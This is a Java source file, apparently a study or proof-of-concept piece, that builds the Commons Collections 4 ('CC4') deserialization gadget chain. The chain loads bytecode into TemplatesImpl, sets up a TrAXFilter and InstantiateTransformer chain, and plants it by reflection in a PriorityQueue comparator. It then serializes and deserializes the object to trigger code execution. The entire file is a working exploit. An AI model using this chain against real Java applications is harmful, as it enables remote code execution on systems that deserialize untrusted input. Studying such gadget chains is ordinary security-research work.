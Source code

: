```java
public class CC4 {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
         setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());

//        templates.newTransformer();

       InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
//       instantiateTransformer.transform(TrAXFilter.class);
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
//        transformingComparator.compare(TrAXFilter.class,TrAXFilter.class);
        PriorityQueue priorityQueue = new PriorityQueue(1,transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class tscomparator = transformingComparator.getClass();
        Field transformerField = tscomparator.getDeclaredField("transformer");
        transformerField.setAccessible(true);
        transformerField.set(transformingComparator,chainedTransformer);

//        Class priorityQueueClass = PriorityQueue.class;
//        Method siftUpUsingComparator =  priorityQueueClass.getDeclaredMethod("siftDownUsingComparator",new Class[]{int.class,int.class});
        serialize(priorityQueue);
        unserialize("CC4.txt");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("CC4.txt"));
        objectOutputStream.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws Exception{
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = objectInputStream.readObject();
        return obj;
    }
    public static void setfieldvalue(Object object, String fieldname, Object value) throws Exception
    {
        Field field = object.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(object,value);
    }
}
```

